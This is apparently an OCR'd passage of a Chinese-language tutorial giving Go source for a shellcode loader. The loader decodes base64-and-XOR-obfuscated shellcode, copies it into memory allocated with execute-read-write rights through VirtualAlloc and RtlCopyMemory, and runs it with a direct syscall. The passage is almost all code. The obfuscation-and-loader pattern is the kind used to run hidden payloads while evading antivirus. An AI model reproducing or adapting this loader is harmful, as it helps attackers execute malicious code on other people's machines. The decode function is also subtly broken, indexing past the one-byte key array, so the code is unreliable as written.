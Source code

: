- 申请内存，然后加载Shellcode到申请的内存块并执行

```go
func main() {
	// 此处填写前面混淆后的Shellcode
	var shellcode = "<Shellcode>"
    
    // 解密Shellcode
	charcode := getDeCode(shellcode)

	// 申请内存
	addr, _, err := VirtualAlloc.Call(0, uintptr(len(charcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
	if err != nil && err.Error() != "The operation completed successfully." {
		syscall.Exit(0)
	}

	// 加载Shellcode
	_, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&charcode[0])), uintptr(len(charcode)))
	if err != nil && err.Error() != "The operation completed successfully." {
		syscall.Exit(0)
	}

	// 执行内存
	syscall.Syscall(addr, 0, 0, 0, 0)
}
```

- 完整代码：

```go
package main

import (
	"encoding/base64"
	"syscall"
	"unsafe"
)

const (
	MEM_COMMIT             = 0x1000
	MEM_RESERVE            = 0x2000
	PAGE_EXECUTE_READWRITE = 0x40 // 区域可以执行代码，应用程序可以读写该区域。
)

var kk = []byte{0x21}

var (
	kernel32     = syscall.MustLoadDLL("kernel32.dll")
	ntdll        = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc = kernel32.MustFindProc("VirtualAlloc")
	// RtlMoveMemory = ntdll.MustFindProc("RtlMoveMemory")
	RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
)

// Shellcode解密
func getDeCode(src string) []byte {
	ss, _ := base64.StdEncoding.DecodeString(src)
	var shellcode []byte
	for i := 0; i < len(ss); i++ {
		shellcode = append(shellcode, ss[i]^kk[1]^kk[2])
	}
	return shellcode
}
```